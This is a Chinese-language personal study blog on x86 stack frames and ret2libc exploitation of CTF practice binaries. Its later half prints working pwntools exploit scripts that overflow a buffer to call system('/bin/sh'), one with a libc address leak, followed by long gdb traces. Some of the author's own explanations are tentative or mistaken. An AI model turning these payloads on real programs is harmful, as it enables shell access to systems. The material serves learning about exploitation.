

之前的 “栈分析” 一文尝试将plt、got表与exp中payload一起分析完，因为当时本人对一些基础概念的错误理解导致没有完成，回看文章发现篇幅过大，看起来很是疲惫，所以打算分开分析，这里就先只尝试分析exp中的payload，对了，之后一些基本指令的使用就不贴图了，以减少图片数量
函数调用过程中的栈上数据存储情况
调用一个函数前，会把被调函数的参数从右至左依次入栈，再把下一条指令的地址作为被调函数的返回地址入栈
函数运行时栈况 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 #源码 #include <stdio.h> int haha () int lala () int main () int a,b,c; haha(); return 0 ; } int haha () int x,y; lala(); } int lala () printf ("wawa" ); }
如何编译以上C代码：
1 2 3 1、ubuntu中建立.c文件，将以上代码复制到.c文件中（我建立的文件名为hawala.c） 2、$ gcc -o hawala.out hawala.c -m32 3、得到hawala.out32位二进制文件
以上得到的 hawala.out 复制到 windows 下，丢进32位ida得到反编译汇编码
main()函数与haha()函数：
lala()函数在此不列出，自己去看。
由以上三个函数我们可以看到普通函数的函数头与函数尾的汇编指令大致与下图无异
单看函数头与函数尾 图1（初始栈况）：地址值均为假设，栈右边为栈地址，栈中间为栈上存储的数据，ebp、esp存储的值为栈地址，栈从高地址向低地址生长。十六进制，一个数字代表4位

图2（函数头）：push ebp ，效果，esp下移，ebp寄存器的值入栈（下图中ebp存储的是栈地址0xffff0080）
图3（函数头）：mov ebp, esp ，效果，esp值赋给ebp
图4（函数头）：and esp, 0FFFFFFF0h (注意这是9位数，带7个F，其中h表示16进制），将esp与0xfffffff0进行按位与操作，好像是对齐操作，总之效果就是将esp的后四位置0，使esp指针向下移动，又由图2知此时esp寄存器值为0xffff0070，后四位为0，所以将它与0xfffffff0按位与后esp位置不变
图5：假设函数中间的汇编使esp执行到了向下的任意位置，但ebp是不会变的
图6（函数尾）：mov esp， ebp ，效果：ebp的值赋给esp，导致esp指向0xffff0070
图7（函数尾）：pop ebp ，效果：取出esp指向的栈上的数据赋给ebp，esp再自增四个字节
图8（函数尾）：pop eip ，效果：此时eip被赋值为0xffff0074地址处的值0x????????
最后： jmp eip ，效果：程序跳转到eip寄存器上的地址开始执行，若现在正在执行lala()函数中的jmp eip，在程序没有发生栈溢出等使0xffff0074地址上的地址数据被修改情况下，那么，jmp eip跳转到的将是haha()函数
上述过程没有列出函数中间部分的汇编指令对esp、ebp的影响（只列出了函数头/尾的影响），这里也不解释太多，继续往下看就行了。
对了，有一个关键词—-“栈平衡”，没事可以去百度搜搜看
函数调用子函数 Ubuntu使用gdb调试hawala.out（上一步中生成的）
1 2 3 4 5 6 7 8 9 $ gdb hawala.out pwndbg> b main pwndbg> b haha pwndbg> b lala pwndbg> r
1、ni单步到call haha，记录好调call前的ebp：0xffffcff8 esp：0xffffcff0
我们接下来看看调用过程中的ebp、esp变化
2、对比上一张图可以看到，这步ni调call，有两处改变：
1）、栈中压入下一条指令地址，即：push IP，不过这里的IP是下一条PC指令地址
2）、我们的PC指针也是从0x565561e1指向了0x565561ed
此时的ebp：0xffffcff8 esp：0xffffcfec
3、继续ni，可以看到ebp、esp都没变，PC指针指向下一指令，此时的ebp：0xffffcff8 esp：0xffffcfec
4、继续ni，可以看到ebp的值已经入栈，入栈的位置是0xffffcfe8，此时的ebp：0xffffcff8 esp：0xffffcfe8
5、继续ni，可以看到我们的ebp已经改变为0xffffcfe8，此时的ebp：0xffffcfe8 esp：0xffffcfe8
6、ni，sub esp,8，向下开辟8字节栈空间，此时的ebp：0xffffcfe8 esp：0xffffcfe0
7、next，此时的ebp：0xffffcfe8 esp：0xffffcfe0
这一步调call指令验证了调用一个call的前后，ebp、esp值不变，
8、ni，下一步调用lala()函数，此时的ebp：0xffffcfe8 esp：0xffffcfe0
9、这里我直接多步ni跳出call lala，因为我们现在在看main中调haha()函数，再看一遍haha()函数中调lala()函数效果一样，所以直接多步ni跳过，此时的ebp：0xffffcfe8 esp：0xffffcfe0
可以看到，haha()中调用lala()前后，ebp、esp不变
10、ni，执行一个nop，即无操作，此时的ebp：0xffffcfe8 esp：0xffffcfe0
11、ni，此时的ebp：0xffffcff8 esp：0xffffcfec
12、ni，我们回到了main函数，__此时的ebp：0xffffcff8 esp：0xffffcff0__，是不是跟调用haha()前的ebp、esp一样？ok，自己思考一下，聪明的你想必可以想出 “栈平衡” 具体的含义了
这时再回头看看这张图，自己体会一下 ^_^
exp中payload分析（这里不用看，意义不大，个人想保留所以留在这，请直接看下面的exp中payload分析1） 注：个人笔记，重在个人看懂
1 2 payload = flat(['a' * 112 , system_plt, 'b' * 4 , binsh_addr])
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) binsh_addr = 0x08048720 system_plt = 0x08048460 payload = flat([b'a' * 112 , system_plt,b'b' * 4 , binsh_addr]) sh=process("./ret2libc1" ) gdb.attach(sh,"b *0x08048683" ) sh.sendline(payload) sh.interactive()
1 2 3 4 5 6 #ida .text:0804867E call _gets .text:08048683 mov eax, 0 .text:08048688 leave .text:08048689 retn
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 0x8048683 <main+107> mov eax, 0 0x8048688 <main+112> leave 0x8048689 <main+113> ret ↓ 0x8048460 <system@plt> jmp dword ptr [system@got.plt] <0x804a018> 0x8048466 <system@plt+6> push 0x18 0x804846b <system@plt+11> jmp 0x8048420 <0x8048420> ↓ 0x8048420 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004> 0x8048426 jmp dword ptr [0x804a008] <0xf7f05b10> ↓ 0xf7f05b10 endbr32 0xf7f05b14 push eax 0xf7f05b15 push ecx 0xf7f05b16 push edx 0xf7f05b17 mov edx, dword ptr [esp + 0x10] 0xf7f05b1b mov eax, dword ptr [esp + 0xc] 0xf7f05b1f call 0xf7eff7d0 <0xf7eff7d0> 0xf7f05b24 pop edx 0xf7f05b25 mov ecx, dword ptr [esp] 0xf7f05b28 mov dword ptr [esp], eax 0xf7f05b2b mov eax, dword ptr [esp + 4] 0xf7f05b2f ret 0xc <0xf7f1b000> ↓ 0xf7d25790 <system> endbr32 ► 0xf7d25794 <system+4> call __x86.get_pc_thunk.dx <__x86.get_pc_thunk.dx> arg[0]: 0x62626262 ('bbbb' ) arg[1]: 0x8048720 ◂— das /* '/bin/sh' */ arg[2]: 0xff8be200 —▸ 0xf7ecf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c arg[3]: 0xff8be244 ◂— 0x0 0xf7d25799 <system+9> add edx, 0x1a9867 0xf7d2579f <system+15> sub esp, 0xc 0xf7d257a2 <system+18> mov eax, dword ptr [esp + 0x10] 0xf7d257a6 <system+22> test eax, eax 0xf7d257a8 <system+24> je system+40 <system+40> 0xf7d257aa <system+26> add esp, 0xc 0xf7d257ad <system+29> jmp do_system <do_system> 0xf7d257b2 <system+34> lea esi, [esi] 0xf7d257b8 <system+40> lea eax, [edx - 0x5cc95]
发现一个神奇的现象
单步一个ret，让我的esp增了0x10
不猜测了，重新运行一遍，这步ret用si调，行吧，一样的，还是增了0x10，就挺奇怪，ret怎么会改变esp呢……
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 0x8048683 <main+107> mov eax, 0 0x8048688 <main+112> leave 0x8048689 <main+113> ret ↓ 0x8048460 <system@plt> jmp dword ptr [system@got.plt] <0x804a018> 0x8048466 <system@plt+6> push 0x18 0x804846b <system@plt+11> jmp 0x8048420 <0x8048420> ↓ 0x8048420 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004> 0x8048426 jmp dword ptr [0x804a008] <0xf7f74b10> ↓ 0xf7f74b10 endbr32 0xf7f74b14 push eax 0xf7f74b15 push ecx 0xf7f74b16 push edx 0xf7f74b17 mov edx, dword ptr [esp + 0x10] 0xf7f74b1b mov eax, dword ptr [esp + 0xc] 0xf7f74b1f call 0xf7f6e7d0 <0xf7f6e7d0> 0xf7f74b24 pop edx 0xf7f74b25 mov ecx, dword ptr [esp] 0xf7f74b28 mov dword ptr [esp], eax 0xf7f74b2b mov eax, dword ptr [esp + 4] 0xf7f74b2f ret 0xc ↓ 0xf7d94790 <system> endbr32 ► 0xf7d94794 <system+4> call __x86.get_pc_thunk.dx <__x86.get_pc_thunk.dx> arg[0]: 0x62626262 ('bbbb' ) arg[1]: 0x8048720 ◂— das /* '/bin/sh' */ arg[2]: 0xfff5eb00 —▸ 0xf7d94790 (system) ◂— endbr32 arg[3]: 0xfff5eb34 ◂— 0x0 0xf7d94799 <system+9> add edx, 0x1a9867 0xf7d9479f <system+15> sub esp, 0xc 0xf7d947a2 <system+18> mov eax, dword ptr [esp + 0x10] 0xf7d947a6 <system+22> test eax, eax 0xf7d947a8 <system+24> je system+40 <system+40> 0xf7d947aa <system+26> add esp, 0xc 0xf7d947ad <system+29> jmp do_system <do_system> 0xf7d947b2 <system+34> lea esi, [esi] 0xf7d947b8 <system+40> lea eax, [edx - 0x5cc95] 0xf7d947ad <system+29> jmp do_system <do_system> ↓ 0xf7d941c0 <do_system> push ebp 0xf7d941c1 <do_system+1> mov ebp, eax 0xf7d941c3 <do_system+3> push edi 0xf7d941c4 <do_system+4> call __x86.get_pc_thunk.di <__x86.get_pc_thunk.di> 0xf7d941c9 <do_system+9> add edi, 0x1a9e37 0xf7d941cf <do_system+15> push esi 0xf7d941d0 <do_system+16> push ebx 0xf7d941d1 <do_system+17> sub esp, 0x33c 0xf7d941d7 <do_system+23> mov eax, dword ptr gs:[0x14] 0xf7d941dd <do_system+29> mov dword ptr [esp + 0x32c], eax 0xf7d941e4 <do_system+36> xor eax, eax 0xf7d941e6 <do_system+38> lea ebx, [esp + 0x150] 0xf7d941ed <do_system+45> lea eax, [esp + 0x1d0] 0xf7d941f4 <do_system+52> mov dword ptr [esp + 0x1c], 0xffffffff 0xf7d941fc <do_system+60> mov dword ptr [esp + 0x150], 1 0xf7d94207 <do_system+71> mov dword ptr [esp + 0x1d4], 0 0xf7d94212 <do_system+82> lea esi, [esi] 0xf7d94218 <do_system+88> mov dword ptr [eax], 0 0xf7d9421e <do_system+94> sub eax, 4 0xf7d94221 <do_system+97> cmp ebx, eax 0xf7d94223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d94218 <do_system+88> mov dword ptr [eax], 0 0xf7d9421e <do_system+94> sub eax, 4 0xf7d94221 <do_system+97> cmp ebx, eax 0xf7d94223 <do_system+99> jne do_system+88 <do_system+88>
中间很奇怪，因为我们的/bin/sh的地址0x8048720存储在栈地址0xfff5eb14上，所以我一直看着esp什么时候会指向0xfff5eb14，但一路调下来，最高也就指到了0xfff5eb10这一栈地址，而在下图中，我发现ebp存储了我们的/bin/sh，
头疼，莫名其妙的，还是没搞明白为什么这串payload中间要隔四个字符再放/bin/sh的地址，一但进入plt表后我的思路就全乱了，本来是打算找到那几条关键的汇编，连在一起做一个验证，结果我发现我得在成千上万条汇编中找出我想要的那几条……
1 payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
而ret2libc3中的payload可以这…等等p32(system_addr) + ‘aaaa’ + p32(buf2_addr)，的确还是隔了四个字符
1 payload = 'a'*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + 'aaaa' + p32(buf2_addr)
再研究一下ret2libc1、ret2libc2、ret2libc3的exp，这里拿 Ret2libc_钞sir的博客-CSDN博客_ret2libc 这个博客的exp做观察
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 #ret2libc1 from pwn import * p = process('./ret2libc1') context.log_level = 'debug' system_addr = 0x08048460 binsh_addr = 0x8049720 p.recvuntil('RET2LIBC >_<\n') p.sendline('a'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive() #ret2libc2 from pwn import * p = process('./ret2libc2') buf2_addr = 0x804a080 gets_addr = 0x8048460 system_addr = 0x8048490 pop_ebx_addr = 0x0804843d p.recvuntil('What do you think ?') p.sendline('a'*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + 'aaaa' + p32(buf2_addr)) p.sendline('/bin/sh\x00') p.interactive() #ret2libc3 from pwn import * from LibcSearcher import LibcSearcher p = process('./ret2libc3') context.log_level = 'debug' start_addr = 0x80484d0 puts_plt_addr = 0x8048460 libc_start_main_got_addr = 0x804a024 p.recvuntil('Can you find it !?') p.sendline('q'*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr)) libc_start_main_addr = u32(p.recv(4)) print "__libc_start_main_addr: " + hex(libc_start_main_addr) libc = LibcSearcher('__libc_start_main', libc_start_main_addr) libcbase = libc_start_main_addr - libc.dump('__libc_start_main') system_addr = libcbase + libc.dump('system') binsh_addr = libcbase + libc.dump('str_bin_sh') + 0xb9 print "system_addr: " + hex(system_addr) print "binsh_addr: " + hex(binsh_addr) p.recvuntil('Can you find it !?') p.sendline('s'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)) p.interactive() 1：'a'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr) 2：'a'*112 + p32(gets_addr) + p32(pop_ebx_addr) + p32(buf2_addr) + p32(system_addr) + 'aaaa' + p32(buf2_addr) 3：'q'*112 + p32(puts_plt_addr) + p32(start_addr) + p32(libc_start_main_got_addr) 's'*112 + p32(system_addr) + 'aaaa' + p32(binsh_addr)
说真的，之前我还以为pwn没啥东西，就一个栈（ROP）、堆、整数、格式化字符串就没了，还打算学完pwn就去搞web，现在看来，我是小丑，一个基础ROP就搞得头皮发麻。
算了，得转换策略了，之后以刷题为主吧，ROP里的payload构造就那些东西，而且形式可以套用，即使不知道底层运作原理也能把题解出来，等以后工作的时候，研究了汇编再去想它的底层是如何运作的吧。
还是老老实实地做一个只会做pwn题的five比较好
在程序的即将结束的前几步中，出现了esp指向/bin/sh这一我想要的结果
exp中payload分析1（请看这） 在经历了种种反复调试观察之后，我发现我也渐渐的熟练，这里再最后尝试一次，看能不能得出我想要的结果
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 #plt、got寻找system函数部分的汇编代码 ► 0x8048683 <main+107> mov eax, 0 0x8048688 <main+112> leave 0x8048689 <main+113> ret ↓ 0x8048460 <system@plt> jmp dword ptr [system@got.plt] <0x804a018> 0x8048466 <system@plt+6> push 0x18 0x804846b <system@plt+11> jmp 0x8048420 <0x8048420> ↓ 0x8048420 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004> 0x8048426 jmp dword ptr [0x804a008] <0xf7f71b10> ↓ 0xf7f71b10 endbr32 0xf7f71b14 push eax 0xf7f71b15 push ecx 0xf7f71b16 push edx 0xf7f71b17 mov edx, dword ptr [esp + 0x10] 0xf7f71b1b mov eax, dword ptr [esp + 0xc] 0xf7f71b1f call 0xf7f6b7d0 <0xf7f6b7d0> ► 0xf7f71b24 pop edx 0xf7f71b25 mov ecx, dword ptr [esp] 0xf7f71b28 mov dword ptr [esp], eax 0xf7f71b2b mov eax, dword ptr [esp + 4] 0xf7f71b2f ret 0xc ↓ 0xf7d91790 <system> endbr32
plt、got查找system函数地址这一过程，我们搭配以下两张图
可以看到，我们调用plt、got表查找system函数的过程前后ebp、esp值保持不变，ok，所以调用plt、got表的过程对我们要研究的__exp中payload分析__没有任何影响
1 payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
先依照刚进system函数的时候画一个栈图吧，如下：
自己画的栈图如下：到这，前置工作就算完成了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 #system函数部分的汇编代码 0xf7d91790 <system> endbr32 ► 0xf7d91794 <system+4> call __x86.get_pc_thunk.dx <__x86.get_pc_thunk.dx> arg[0]: 0x62626262 ('bbbb') arg[1]: 0x8048720 ◂— das /* '/bin/sh' */ arg[2]: 0xff8b6b00 —▸ 0xf7f3b000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c arg[3]: 0xff8b6b44 ◂— 0x0 0xf7d91799 <system+9> add edx, 0x1a9867 0xf7d9179f <system+15> sub esp, 0xc 0xf7d917a2 <system+18> mov eax, dword ptr [esp + 0x10] 0xf7d917a6 <system+22> test eax, eax 0xf7d917a8 <system+24> je system+40 <system+40> 0xf7d917aa <system+26> add esp, 0xc 0xf7d917ad <system+29> jmp do_system <do_system> #----------------------------------------------------------# 0xf7d917b2 <system+34> lea esi, [esi] 0xf7d917b8 <system+40> lea eax, [edx - 0x5cc95] #----------------------------------------------------------# 0xf7d917ad <system+29> jmp do_system <do_system> ↓ 0xf7d911c0 <do_system> push ebp 0xf7d911c1 <do_system+1> mov ebp, eax 0xf7d911c3 <do_system+3> push edi <0xf7f3b000> 0xf7d911c4 <do_system+4> call __x86.get_pc_thunk.di __x86.get_pc_thunk.di> arg[0]: 0xf7f3b000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c arg[1]: 0x61616161 ('aaaa') arg[2]: 0x62626262 ('bbbb') arg[3]: 0x8048720 ◂— das /* '/bin/sh' */ 0xf7d911c9 <do_system+9> add edi, 0x1a9e37 0xf7d911cf <do_system+15> push esi 0xf7d911d0 <do_system+16> push ebx 0xf7d911d1 <do_system+17> sub esp, 0x33c 0xf7d911d7 <do_system+23> mov eax, dword ptr gs:[0x14] 0xf7d911dd <do_system+29> mov dword ptr [esp + 0x32c], eax 0xf7d911e4 <do_system+36> xor eax, eax 0xf7d911e6 <do_system+38> lea ebx, [esp + 0x150] 0xf7d911ed <do_system+45> lea eax, [esp + 0x1d0] 0xf7d911f4 <do_system+52> mov dword ptr [esp + 0x1c], 0xffffffff 0xf7d911fc <do_system+60> mov dword ptr [esp + 0x150], 1 0xf7d91207 <do_system+71> mov dword ptr [esp + 0x1d4], 0 0xf7d91212 <do_system+82> lea esi, [esi] 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ► 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 0xf7d9121e <do_system+94> sub eax, 4 0xf7d91221 <do_system+97> cmp ebx, eax 0xf7d91223 <do_system+99> ✔ jne do_system+88 <do_system+88> ↓ 0xf7d91218 <do_system+88> mov dword ptr [eax], 0 ... ... ... 后面基本都是循环，感觉全列出来意义不大
ok，接下来找关键汇编代码就行，<system+4>中我们可以看到这句：__arg[1]: 0x8048720 ◂— das /* ‘/bin/sh’ */__，这里将esp往上的四个地址中的数据当成参数传给system函数，这里我们也可以猜测system会根据第二个参数__arg[1]__执行相关的操作（个人理解，不对的话请恳大佬指正，wx：xy1724252720）【ok，在调了之后的过程后发现猜测有误】
何为关键汇编，我这里找的是能使ebp发生改变或使esp往高地址指的关键pop等操作
1、执行了一次函数头，其实好办了，我们接着去找函数尾的标志（leave、retn）
2、执行到程序结束也没看到连在一起的leave和retn指令
3、同时我们看看我们的ebp和esp，
上图中的esp指在0xff8b67b4栈地址处，而我的理想是它指在下图中的0xff8b6b20栈地址处，明显0xff8b67b4<0xff8b6b20，所以说上图中的esp在下图中esp的下方，又因为我们整个过程只由我们主观调用了system函数，所以我们还在system函数中进程就结束了，而结束的原因就是我们已经拿到系统的shell了
4、以上说明了我们获得shell的地方是在执行system函数的过程中，所以在以上的探索中我们只看到了system函数的函数头部分而一直没找到system的函数尾部分
5、综上，对于这句 payload = flat([‘a’ * 112, system_plt, ‘b’ * 4, binsh_addr]) ，我有了我的一个暂时说得通的理解（应该是错的，但能勉强说通），通过栈溢出，我们可以令程序跳转至system函数，然后在执行system函数头后，会将esp往上四个栈地址（包括esp指向的栈地址）上的数据传入system函数，如下，然后system会调用arg[1]存储的数据进行相应的操作，所以在覆盖时我们需要隔4个字符存储/bin/sh的地址，然而为什么要用arg[1]而不用arg[0]，我暂时还没想好是什么原因，（再提一嘴，arg[0]是执行到这条汇编时的esp指向的栈地址上存储的数据）
小结：
之前我从未想到过系统的shell是在执行system函数时拿到的，所以很多地方都想不通，现在也算是想通一部分了吧，ok，ret2libc1的exp探索结束了，之后还有ret2libc2和ret2libc3的，其实我感觉最难搞懂的点也就这里的 payload = flat([‘a’ * 112, system_plt, ‘b’ * 4, binsh_addr]) 中为什么间隔的那四个无用字符。
一些小细节(不明白的地方) 细节1：
do为循环标志
exp中payload分析2 源自： Ret2libc_钞sir的博客-CSDN博客_ret2libc
